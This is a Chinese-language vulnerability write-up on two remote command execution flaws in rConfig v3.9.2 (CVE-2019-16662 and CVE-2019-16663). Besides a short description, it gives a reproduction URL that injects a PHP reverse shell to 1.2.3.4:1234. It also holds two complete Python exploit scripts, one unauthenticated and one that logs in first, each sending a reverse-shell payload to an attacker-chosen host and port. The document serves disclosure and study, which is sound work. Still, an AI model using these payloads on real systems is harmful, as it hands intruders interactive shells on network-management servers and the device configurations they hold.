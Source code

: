 （CVE-2019-16662）（CVE-2019-16663）rConfig v3.9.2 远程命令执行
===============================================================

一、漏洞简介
------------

我在两个文件中分别发现了两个远程代码执行漏洞。第一个是ajaxServerSettingsChk.php，攻击者可以通过rootUname参数发送精心构造的一个GET请求，触发未授权RCE漏洞。rootUname参数在源文件第2行中定义，随后会在第13行传递给exec函数，攻击者可以构造参数接收内容实现让操作系统执行恶意命令。这个漏洞很容易利用和发现,后面的篇幅中我将介绍如何发现并利用这个漏洞。

第二个漏洞是在search.crud.php发现的，这文件需要通过身份验证才能触发远程代码执行漏洞。这个漏洞可以通过构造一个包含有两个参数的GET请求触发，其中searchTerm参数可以包含任意值，但该参数必须存在，才能执行到第63行的exec函数。

二、漏洞影响
------------

rConfig v3.9.2

三、复现过程
------------

    https://www.0-sec.org/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=`php -r '$sock=fsockopen("1.2.3.4",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

![](./resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId24.png)

pyton脚本一

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 unauthenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16662
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22

    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 4:
        print "[+] Usage : ./exploit.py target ip port"
        exit()

    target = sys.argv[1]

    ip = sys.argv[2]

    port = sys.argv[3]

    payload = quote(''';php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port))

    install_path = target + "/install"

    req = requests.get(install_path, verify=False)
    if req.status_code == 404:
        print "[-] Installation directory not found!"
        print "[-] Exploitation failed !"
        exit()
    elif req.status_code == 200:
        print "[+] Installation directory found!"
    url_to_send = target + "/install/lib/ajaxHandlers/ajaxServerSettingsChk.php?rootUname=" + payload

    print "[+] Triggering the payload"
    print "[+] Check your listener !"

    requests.get(url_to_send, verify=False)

![](./resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId25.png)

python脚本二

    #!/usr/bin/python

    # Exploit Title: rConfig v3.9.2 Authenticated Remote Code Execution
    # Date: 18/09/2019
    # Exploit Author: Askar (@mohammadaskar2)
    # CVE : CVE-2019-16663
    # Vendor Homepage: https://rconfig.com/
    # Software link: https://rconfig.com/download
    # Version: v3.9.2
    # Tested on: CentOS 7.7 / PHP 7.2.22


    import requests
    import sys
    from urllib import quote
    from requests.packages.urllib3.exceptions import InsecureRequestWarning


    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    if len(sys.argv) != 6:
        print "[+] Usage : ./exploit.py target username password ip port"
        exit()

    target = sys.argv[1]

    username = sys.argv[2]

    password = sys.argv[3]

    ip = sys.argv[4]

    port = sys.argv[5]

    request = requests.session()

    login_info = {
        "user": username,
        "pass": password,
        "sublogin": 1
    }

    login_request = request.post(
        target+"/lib/crud/userprocess.php",
         login_info,
         verify=False,
         allow_redirects=True
     )

    dashboard_request = request.get(target+"/dashboard.php", allow_redirects=False)


    if dashboard_request.status_code == 200:
        print "[+] LoggedIn successfully"
        payload = '''""&amp;&amp;php -r '$sock=fsockopen("{0}",{1});exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'#'''.format(ip, port)
        encoded_request = target+"/lib/crud/search.crud.php?searchTerm=anything&amp;catCommand={0}".format(quote(payload))
        print "[+] triggering the payload"
        print "[+] Check your listener !"
        exploit_req = request.get(encoded_request)

    elif dashboard_request.status_code == 302:
        print "[-] Wrong credentials !"
        exit()

![](./resource/(CVE-2019-16662)(CVE-2019-16663)rConfigv3.9.2远程命令执行/media/rId26.png)
